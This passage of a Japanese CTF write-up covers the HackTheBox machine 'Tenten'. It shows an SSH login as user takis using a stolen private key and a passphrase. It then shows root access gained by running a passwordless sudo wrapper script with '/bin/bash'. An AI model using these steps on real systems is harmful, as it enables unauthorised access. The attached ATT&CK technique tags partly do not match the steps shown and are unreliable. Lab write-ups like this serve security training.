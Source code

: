 tenten.htbのwordpressにアカウントがあるtakisでsshにログインする
SSH接続で使用する秘密鍵を指定して、ログインをする必要がある。
この時、パスワードを求められるが、パスワードは、superpasswordである。
これで、ユーザー権限は取得できた。
```bash
ssh -i id_rsa takis@10.129.247.176
```

- **Tactics**:
    - #Tactic_初期アクセス
    - #Tactic_Escution_実行
- **Techniques**:
    - #T1190_公開アプリケーションのエクスプロイト
    - #T1059_コマンドとスクリプトインタープリタ
    - #T1078_有効なアカウント
    - その他のInitial Access/Execution関連技術...





# Privilege Escalation

sudo -lで
```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin

```

```bash
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```

```bash
takis@tenten:~$ sudo /bin/fuckin sudo /bin/bash   
root@tenten:~# ls
```


- **Tactics**:
    - #Tactic_特権昇格
- **Techniques**:
    - #T1068_特権昇格のためのエクスプロイト
    - #T1055_プロセス注入
    - #T1053_スケジュールされたタスク/ジョブ
    - その他のPrivilege Escalation関連技術...
